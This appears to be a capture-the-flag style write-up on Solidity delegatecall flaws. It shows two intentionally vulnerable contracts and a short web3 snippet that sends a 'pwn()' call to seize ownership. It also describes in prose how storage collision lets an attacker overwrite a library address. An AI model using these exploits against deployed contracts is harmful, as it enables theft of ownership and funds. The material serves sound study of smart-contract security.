 # Delegate Call

Delegatecall() allows you to call a function from another contract and change the storage and state variables of the calling contract (the contract that invokes the function).

#### Example Vuln Code 1

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

Confirm which contract we're interacting with using `contract.abi`, which would be Delegation in this case.

```javascript
#create function signature
var pwnFuncSignature = web3.utils.sha3("pwn()")

#pass in the function sig
contract.sendTransaction({data: pwnFuncSignature})
```



#### Example Vuln Code 2

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

The flaw here is that the setTime function in the LibraryContract isn't changing stored time, it's changing timeZone1Library in the calling contract.

This is because of how storage works in Ethereum. Thus, we can override timeZone1Library with a malicious address and exploit the contract like so:

Note that we must copy the same storage space/variables to be able to get to the owner.

![delegate_call_set_time](./screenshots/delegate_call_set_time.png)

